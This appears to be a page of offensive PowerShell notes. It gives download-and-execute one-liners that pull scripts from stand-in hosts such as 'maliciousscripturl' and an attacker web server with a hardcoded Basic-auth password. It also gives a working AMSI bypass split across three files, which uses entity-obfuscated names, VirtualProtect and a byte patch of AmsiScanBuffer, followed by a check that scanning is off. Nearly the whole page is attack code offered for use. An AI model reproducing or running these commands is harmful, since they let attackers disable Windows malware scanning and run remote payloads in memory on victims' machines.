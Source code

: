 ```
$Url = 'https://iptoyourwebserver/amsi-bypasses/1.txt'; $Username = ''; $Password = 'VinterICity'; $WebClient = New-Object System.Net.WebClient; $WebClient.Headers['Authorization'] = 'Basic ' + [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("$Username`:$Password")); IEX($WebClient.DownloadString($Url))
```
#### `[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12`
This is useful for TLS error on older windows machines and after executing it in downloadstring can be used. 

#### `IEX([Net.Webclient]::new().DownloadString("https://maliciousscripturl/malicious.ps1"))`
Download a script straight into powershell memory. 
### AMSI Bypasses
Here is a basic amsi bypass that can be used with downloadstring and download all 3 examples below into powershell when the 3.txt is downloaded amsi is bypasses:
#### `IEX([Net.Webclient]::new().DownloadString("https://maliciousscripturl/1.txt"))`
```
cat 1.txt 

$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@


    
cat 2.txt

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)

cat 3.txt 

[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```
To confirm AMSI is shutoff you can type amsiscanbuffer in the powershell session.  If an error message appears stating that this is not a recognized command, then you've successfully disabled AMSI.
